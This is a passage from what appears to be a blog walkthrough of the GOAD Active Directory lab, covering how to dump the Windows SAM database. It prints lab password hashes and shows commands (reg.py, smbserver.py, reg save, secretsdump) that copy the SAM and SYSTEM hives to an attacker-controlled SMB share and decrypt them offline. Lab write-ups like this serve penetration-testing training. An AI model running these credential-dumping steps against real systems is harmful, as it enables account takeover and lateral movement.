 ```bash
[*] Stopping service RemoteRegistry
```

## Security Account Manager (SAM) Database

- First secretdump retreive the SAM hashes :

```bash
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:0e181c6215bdbfd5b93917da349fc7cd:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
```

- Let's talk about the sam database.
- The Security Account Manager (SAM) is a database that is present on computers running Windows operating systems that stores user accounts and security descriptors for users on the local computer.
- The sam database is located at : C:\Windows\System32\config\SAM and is mounted on registry at HKLM/SAM
- To be able to decrypt the data you need the contains of the system file located at C:\Windows\System32\config\SYSTEM  and is available on the registry at HKLM/SYSTEM.
- SecretDump get the contains of HKLM/SAM and HKLM/SYSTEM and decrypt the contains.

- We dumped the sam database with secretsdump but we can also do that with the following commands :
```bash
smbserver.py -smb2support share .  # start a server to get the result
reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SAM' -o '\\192.168.56.1\share'
reg.py NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SYSTEM' -o '\\192.168.56.1\share'
```

- Or directly on our windows shell:
```cmd
reg save HKLM\SAM c:\sam
reg save HKLM\SYSTEM c:\system
```

>With SAM and SYSTEM we get the contains of the LM and NT hashs stored in the sam database.
{: .prompt-tip }

>The SAM database contains all the local accounts
{: .prompt-info }

- secretsdump got a command to decrypt the sam contains with the files we download :

```bash
secretsdump -sam SAM.save -system SYSTEM.save LOCAL
```

![lateral_hashdump.png](/assets/blog/GOAD/lateral_hashdump.png)

- The result is in the following format:

